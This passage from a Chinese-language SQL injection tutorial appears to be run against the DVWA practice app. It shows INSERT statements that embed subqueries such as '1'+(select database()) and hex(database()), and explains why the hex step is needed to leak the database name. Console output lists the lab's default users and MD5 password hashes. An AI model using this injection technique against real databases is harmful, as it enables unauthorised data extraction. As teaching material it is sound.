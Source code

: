 ```
5 rows in set (0.00 sec)

mysql> insert into users values('7','1'+(select database()),'1','1','1','1','2020-08-02 20:36:12','1');
Query OK, 1 row affected (0.00 sec)

mysql> select * from users;
+---------+------------+-----------+---------+----------------------------------+-----------------------------+---------------------+--------------+
| user_id | first_name | last_name | user    | password                         | avatar                      | last_login          | failed_login |
+---------+------------+-----------+---------+----------------------------------+-----------------------------+---------------------+--------------+
|       1 | admin      | admin     | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 | /hackable/users/admin.jpg   | 2020-08-02 20:36:12 |            0 |
|       2 | Gordon     | Brown     | gordonb | e99a18c428cb38d5f260853678922e03 | /hackable/users/gordonb.jpg | 2020-08-02 20:36:12 |            0 |
|       3 | Hack       | Me        | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b | /hackable/users/1337.jpg    | 2020-08-02 20:36:12 |            0 |
|       4 | Pablo      | Picasso   | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 | /hackable/users/pablo.jpg   | 2020-08-02 20:36:12 |            0 |
|       5 | Bob        | Smith     | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 | /hackable/users/smithy.jpg  | 2020-08-02 20:36:12 |            0 |
|       7 | 1          | 1         | 1       | 1                                | 1                           | 2020-08-02 20:36:12 |            1 |
+---------+------------+-----------+---------+----------------------------------+-----------------------------+---------------------+--------------+
6 rows in set (0.00 sec)

```

这里insert的时候只是插入1，并没有链接上查询出来的数据库。为什么呢？这是因为

	1+字符串 = 1
	顺便说一下，这跟php差不多，先转换类型，在相加。
	1+ 2admin = 3

所以有了接下来的操作。hex编码。

![aW4t6s.png](https://s1.ax1x.com/2020/08/07/aW4t6s.png)

```
mysql> insert into users values('8','1'+(select hex(database())),'1','1','1','1','2020-08-02 20:36:12','1');
Query OK, 1 row affected (0.00 sec)

mysql> select * from users;
+---------+------------+-----------+---------+----------------------------------+-----------------------------+---------------------+--------------+
| user_id | first_name | last_name | user    | password                         | avatar                      | last_login          | failed_login |
+---------+------------+-----------+---------+----------------------------------+-----------------------------+---------------------+--------------+
|       1 | admin      | admin     | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 | /hackable/users/admin.jpg   | 2020-08-02 20:36:12 |            0 |
|       2 | Gordon     | Brown     | gordonb | e99a18c428cb38d5f260853678922e03 | /hackable/users/gordonb.jpg | 2020-08-02 20:36:12 |            0 |
|       3 | Hack       | Me        | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b | /hackable/users/1337.jpg    | 2020-08-02 20:36:12 |            0 |
|       4 | Pablo      | Picasso   | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 | /hackable/users/pablo.jpg   | 2020-08-02 20:36:12 |            0 |
|       5 | Bob        | Smith     | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 | /hackable/users/smithy.jpg  | 2020-08-02 20:36:12 |            0 |
|       7 | 1          | 1         | 1       | 1                                | 1                           | 2020-08-02 20:36:12 |            1 |
```